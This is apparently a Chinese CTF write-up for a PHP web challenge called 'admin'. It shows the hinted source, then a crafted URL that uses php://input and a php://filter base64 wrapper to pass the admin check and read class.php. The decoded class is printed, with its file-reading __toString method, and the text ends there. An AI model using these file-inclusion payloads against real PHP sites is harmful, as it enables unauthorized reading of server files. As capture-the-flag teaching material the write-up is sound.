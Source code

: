 ![在这里插入图片描述](img/8fcb89d87cc7d46d50532eae8a1436dd.png)

## <mark>题目：admin</mark>

看源码有提示

```
<!--
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];

if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    include($file); 
}else{
    echo "you are not admin ! ";
}
 --> 
```

构造`http://120.55.43.255:28119/?user=php://input&file=php://filter/convert.base64-encode/resource=class.php&pass=1`
Post传递admin

![在这里插入图片描述](img/c619d6d135da66d9e1cbef6763b4ba4c.png)
解码得出

```
<?php
error_reporting(E_ALL & ~E_NOTICE);

class Read{
    public $file;
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);    
        }
        return "Awwwwwwwwwww man";
    }
}
```